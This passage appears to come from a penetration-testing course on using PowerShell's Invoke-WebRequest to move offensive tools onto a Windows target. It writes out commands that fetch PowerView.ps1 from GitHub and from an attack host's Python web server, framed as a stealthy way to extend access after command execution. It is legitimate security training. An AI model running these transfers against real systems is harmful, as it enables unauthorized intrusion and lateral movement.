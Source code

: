 Using Invoke-WebRequest is simple; we specify the cmdlet and the exact URL of a resource we want to download:

`-Uri "https://raw.githubusercontent.com/PowerShellMafia/PowerSploit/master/Recon/PowerView.ps1"`

After the URL, we specify the location and file name of the resource on the Windows system we are downloading it from:

`-OutFile "C:\PowerView.ps1"`

We can also use Invoke-WebRequest to download files from web servers on the local network or a network reachable from the Windows target. It is common to find the need to transfer files from our attack host to a Windows target. One benefit to doing this would be if one of our goals during a pentest is to remain as stealthy as possible, we may not need to generate requests to the Internet that network security appliances could detect at the edge of the network. If we already had PowerView.ps1 stored on our `attack host` we could use a simple python web server to host PowerView.ps1 and download it from the target.

### Example Path to Bring Tools Into an Environment

If we already had PowerView.ps1 stored on our `attack host` we could use a simple Python web server to host PowerView.ps1 and download it from the target. From the attack host, we want to confirm that the file is already present or we need to download it. In this example, we can assume it is already on the attack host for demonstration purposes.

#### Using ls to View the File (Attack Host)

```shell-session
KaoruRyusaki@htb[/htb]$ ls

Dictionaries            Get-HttpStatus.ps1                    Invoke-Portscan.ps1          PowerView.ps1  Recon.psd1
Get-ComputerDetail.ps1  Invoke-CompareAttributesForClass.ps1  Invoke-ReverseDnsLookup.ps1  README.md      Recon.psm1
```

We start a simple python web server in the directory where PowerView.ps1 is located.

#### Starting the Python Web Server (Attack Host)

```shell-session
KaoruRyusaki@htb[/htb]$ python3 -m http.server 8000

Serving HTTP on 0.0.0.0 port 8000 (http://0.0.0.0:8000/) ...
```

Then, we would download the hosted file from the attack host using Invoke-WebRequest.

#### Downloading PowerView.ps1 from Web Server (From Attack Host to Target Host)

```powershell-session
Invoke-WebRequest -Uri "http://10.10.14.169:8000/PowerView.ps1" -OutFile "C:\PowerView.ps1"
```

As discussed previously, we can use the Invoke-WebRequest cmdlet to send commands to remote hosts. This can be pretty useful, especially when we discover vulnerabilities that allow us to execute commands on a Windows target but may not have access via an interactive shell or remote desktop session. This could allow us to download files onto the target host, allowing us to further our access to that target and move to others on the network. File transfer methods are covered in greater detail in the module [File Transfers](https://academy.hackthebox.com/module/details/24).
